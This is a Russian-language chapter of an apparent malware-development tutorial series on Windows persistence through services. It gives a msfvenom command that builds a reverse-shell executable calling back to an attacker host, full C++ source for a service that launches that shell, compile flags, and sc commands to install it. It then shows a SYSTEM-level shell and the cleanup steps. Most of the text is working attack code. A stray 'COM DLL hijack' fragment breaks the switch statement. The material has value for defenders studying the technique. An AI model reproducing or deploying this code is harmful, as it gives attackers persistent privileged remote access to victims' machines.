




\newpage
\subsection{70. Разработка вредоносного ПО: закрепление (persistence) - часть 4. Службы Windows. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот раздел является продолжением серии статей о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепления: службы Windows.

### Службы Windows

Службы Windows имеют важное значение для взлома по следующим причинам:    

- Они работают в сети на системном уровне – весь API служб был создан с учетом удалённых серверов.        
- Они запускаются автоматически при загрузке системы.    
- Они могут обладать крайне высокими привилегиями в операционной системе.      

Управление службами требует высоких привилегий, и непривилегированный пользователь, как правило, может только просматривать настройки.
Эта ситуация не изменилась за последние двадцать лет.    

В контексте Windows неправильно настроенные службы могут привести к повышению привилегий или использоваться как метод закрепления в системе.    
Таким образом, создание новой службы требует учетных данных администратора и не является скрытым способом закрепления.   

### практический пример

Рассмотрим практический пример: как создать и запустить службу Windows, которая создаст обратный shell.

Сначала создадим исполняемый файл обратного shell через `msfvenom` на машине атакующего:    


```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

{width="80%"}    

{width="80%"}    

Затем создадим службу, которая будет запускать `meow.exe` на целевой машине.

Минимальные требования для службы:
- Точка входа в основную программу (как в любом приложении)    
- Точка входа в службу    
- Обработчик управления службой    

В основной точке входа быстро вызываем `StartServiceCtrlDispatcher`, чтобы `SCM` мог вызвать точку входа службы (`ServiceMain`):

```cpp
int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

Точка входа в службу выполняет следующие задачи:
- Инициализирует все необходимые компоненты, отложенные в основной точке входа.
- Регистрирует обработчик управления службой (`ControlHandler`), который обрабатывает команды остановки, паузы, продолжения и т. д.
- Эти команды регистрируются в виде битовой маски через поле `dwControlsAccepted` структуры `SERVICE_STATUS`.
- Устанавливает статус службы в `SERVICE_RUNNING`.
- Выполняет процедуры инициализации, такие как создание потоков, событий, мьютексов, IPC и т. д.

```cpp
void ServiceMain(int argc, char** argv) {
  serviceStatus.dwServiceType        = SERVICE_WIN32;
  serviceStatus.dwCurrentState       = SERVICE_START_PENDING;
  serviceStatus.dwControlsAccepted   = 
  SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
  serviceStatus.dwWin32ExitCode      = 0;
  serviceStatus.dwServiceSpecificExitCode = 0;
  serviceStatus.dwCheckPoint         = 0;
  serviceStatus.dwWaitHint           = 0;

  hStatus = RegisterServiceCtrlHandler("MeowService", 
  (LPHANDLER_FUNCTION)ControlHandler);
  RunMeow();

  serviceStatus.dwCurrentState = SERVICE_RUNNING;
  SetServiceStatus (hStatus, &serviceStatus);

  while (serviceStatus.dwCurrentState == SERVICE_RUNNING) {
    Sleep(SLEEP_TIME);
  }
  return;
}
```

Обработчик управления службой был зарегистрирован в точке входа в службу. Каждая служба должна иметь обработчик для обработки запросов управления от `SCM`:

```cpp
void ControlHandler(DWORD request) {
  switch(request) {
    case SERVICE_CONTROL_STOP:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    case SERVICE_CONTROL_SHUTDOWN:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    default:
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

Я реализовал только поддержку запросов `SERVICE_CONTROL_STOP` и `SERVICE_CONTROL_SHUTDOWN`. Вы можете обрабатывать другие запросы, такие как `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` и другие.

Также создайте функцию с *вредоносной* логикой:

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: 
  // msfvenom -p windows/x64/shell_reverse_tcp 
  // LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, 
  NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", 
    (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

Как я писал ранее, просто создадим наш процесс обратного shell (`meow.exe`):    

{width="80%"}    

Конечно, этот код не является эталонным и больше похож на *"грязный"* Proof of Concept.    

### демонстрация

Перейдём к демонстрации.    

Компилируем службу:

```bash
x86_64-w64-mingw32-g++ -O2 meowsrv.cpp -o meowsrv.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Установим службу, выполнив следующую команду на целевой машине (`Windows 10 x64`). Все команды выполняются с правами администратора:

```powershell
sc create MeowService binpath= \
"Z:\2022-05-09-malware-pers-4\meowsrv.exe" \
start= auto
```

{width="80%"}    

Проверяем установку:

```powershell
sc query MeowService
```

{width="80%"}    

Если открыть `Process Hacker`, мы увидим службу на вкладке `Services`:

{width="80%"}    

Если проверить её свойства:

{width="80%"}    

Учётная запись `LocalSystem` - это предопределённая локальная учётная запись, используемая диспетчером управления службами. Она обладает широкими привилегиями на локальном компьютере и действует как компьютер в сети. Её токен включает `NT AUTHORITY\SYSTEM` и `BUILTIN\Administrators` SIDs, что даёт доступ к большинству системных объектов. В разных локалях имя учётной записи остаётся `.\LocalSystem`. Также можно использовать `LocalSystem` или `ComputerName\LocalSystem`. У этой учётной записи нет пароля. Если в вызове `CreateService` или `ChangeServiceConfig` указать учётную запись `LocalSystem`, информация о пароле игнорируется [по данным MSDN](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account).    

Затем запускаем службу командой:

```powershell
sc start MeowService
```

{width="80%"}    

Как видите, мы получили обратный shell!:    

{width="80%"}    

А наша служба `MeowService` получила `PID: 5668`:    

{width="80%"}    

Затем запустим `Process Hacker` от имени обычного пользователя:    

{width="80%"}    

Как видите, он не отображает имя пользователя. Однако, если запустить `Process Hacker` от имени администратора, ситуация меняется, и мы видим, что наш shell работает от имени `NT AUTHORITY\SYSTEM`:    

{width="80%"}    

Также его можно найти во вкладке `Network`:    

{width="80%"}    

Таким образом, всё работает идеально! :)


После завершения экспериментов давайте почистим систему. Остановим службу:

```powershell
sc stop MeowService
```

{width="80%"}        

Таким образом, `MeowService` успешно остановлена. Теперь удалим её:

```powershell
sc delete MeowService
```

{width="80%"}    

После удаления мы увидим уведомление в `Process Hacker`.

Но **есть один очень важный нюанс**. Возможно, возникает вопрос, почему мы не запустили команду:

```powershell
sc create MeowService \
binpath= "Z:\2022-05-09-pers-4\meow.exe" \
start= auto
```

Потому что `meow.exe` на самом деле не является службой. Как я писал ранее, минимальные требования для службы включают наличие следующих функций: точка входа в основную программу, точка входа в службу и обработчик управления службой. Если попытаться создать службу только из `meow.exe`, она просто завершится с ошибкой.

### заключение

Эта техника не нова, но на неё стоит обратить внимание, особенно специалистам начального уровня в `blue team`. Злоумышленники также могут модифицировать существующие службы Windows вместо создания новых. В реальных атаках этот метод часто использовался такими группами, как [APT 38](https://attack.mitre.org/groups/G0082/), [APT 32](https://attack.mitre.org/groups/G0050/) и [APT 41](https://attack.mitre.org/groups/G0096/).

[MITTRE ATT&CK. Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)   
[APT 32](https://attack.mitre.org/groups/G0050/)    
[APT 38](https://attack.mitre.org/groups/G0082/)    
[APT 41](https://attack.mitre.org/groups/G0096/)    
[исходный код на Github](https://github.com/cocomelonc/2022-05-09-malware-pers-4)    
